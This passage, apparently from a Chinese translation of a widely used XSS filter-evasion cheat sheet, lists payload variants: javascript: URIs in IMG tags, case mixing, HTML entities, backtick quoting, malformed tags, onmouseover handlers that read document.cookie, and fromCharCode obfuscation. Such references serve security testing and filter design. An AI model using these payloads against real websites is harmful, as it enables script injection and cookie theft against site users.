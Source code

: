 图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：

> <IMG SRC=”javascript:alert(‘XSS’);”>

### 2.6.  无分号无引号

> <IMG SRC=javascript:alert(‘XSS’)>

### 2.7.  不区分大小写的XSS攻击向量

> <IMG SRC=JaVaScRiPt:alert(‘XSS’)>

### 2.8.  HTML实体

必须有分号才可生效

> <IMG SRC=javascript:alert(&quot;XSS&quot;)>

### 2.9.  重音符混淆

如果你的JavaScript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包含JavaScript 代码。这通常会有很大帮助，因为大部分跨站脚本过滤器都没有过滤这个字符：

> <IMG SRC=`javascript:alert(“RSnake says, ‘XSS’”)`>

### 2.10.    畸形的A标签

跳过HREF标签找到XSS的重点。。。由DavidCross提交~已在Chrome上验证

> <a onmouseover=”alert(document.cookie)”>xxs link</a>

此外Chrome经常帮你补全确实的引号。。。如果在这方面遇到问题就直接省略引号，Chrome会帮你补全在URL或脚本中缺少的引号。

> <a onmouseover=alert(document.cookie)>xxs link</a>

### 2.11.    畸形的IMG标签

最初由Begeek发现（短小精湛适用于所有浏览器），这个XSS攻击向量使用了不严格的渲染引擎来构造含有IMG标签并被引号包含的XSS攻击向量。我猜测这种解析原来是为了兼容不规范的编码。这会让它更加难以正确的解析HTML标签：

> <IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>

### 2.12.    fromCharCode函数

如果不允许任何形式的引号，你可以通过执行JavaScript里的fromCharCode函数来创建任何你需要的XSS攻击向量：

> <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

### 2.13.    使用默认SRC属性绕过SRC域名过滤器

这种方法可以绕过大多数SRC域名过滤器。将JavaScript代码插入事件方法同样适用于注入使用elements的任何HTML标签，例如Form,Iframe, Input, Embed等等。它同样允许将事件替换为任何标签中可用的事件类型，例如onblur,onclick。下面会给出许多不同的可注入事件列表。由David Cross提交，Abdullah Hussam(@Abdulahhusam)编辑。
